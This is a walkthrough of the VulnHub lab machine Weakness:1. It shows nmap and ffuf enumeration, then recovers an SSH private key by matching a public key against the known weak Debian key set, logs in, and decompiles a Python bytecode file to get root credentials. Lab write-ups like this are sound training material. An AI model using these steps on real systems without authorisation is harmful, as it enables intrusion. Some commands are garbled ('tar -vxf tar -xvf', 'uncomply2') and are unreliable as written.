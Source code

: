 

# Weakness:1 Walkthrough

**VulnHub Link:** [Weakness:1](https://www.vulnhub.com/entry/w34kn3ss-1,270/)
**Difficulty:** Medium 
**Release Date:** 14 Aug 2018

---

## 1. Reconnaissance

### Nmap Scan
```bash
nmap -A -O -T4 -P -sV 192.168.100.169

sudo echo "192.168.100.169    weakness.jth" > /etc/hosts
```

## 2. Web Enumeration
```
ffuf -c -ic -u 'http://weakness.jth/FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```
/private found

from private we obtain my-key.pub and notes.txt

found out that my-key.pub is ssh_rsa key 

we download debian_rsa_ssh_2048 from https://github.com/g0tmi1k/debian-ssh/blob/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 and --->

```bash
tar -vxf tar -xvf debian_ssh_rsa_2048_x86.tar.bz2

cd rsa/2048
grep -r "ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw== root@targetcluster" .
```

we obtain ssh private key file

```bash
ssh -i 4161de56829de2fe64b9055711f531c1-2537 n30@weakness.jth (we obtain n30 from webpage)
```

n30 shell opened.

we observe that code exist which is python 2.7 byte-complied
we download that file via python server to our machine

```bash
uncomply2 code
```

and we can see username and password

n30:dMASSDNB!#B!#!#33

and BOOOMM...! We are root
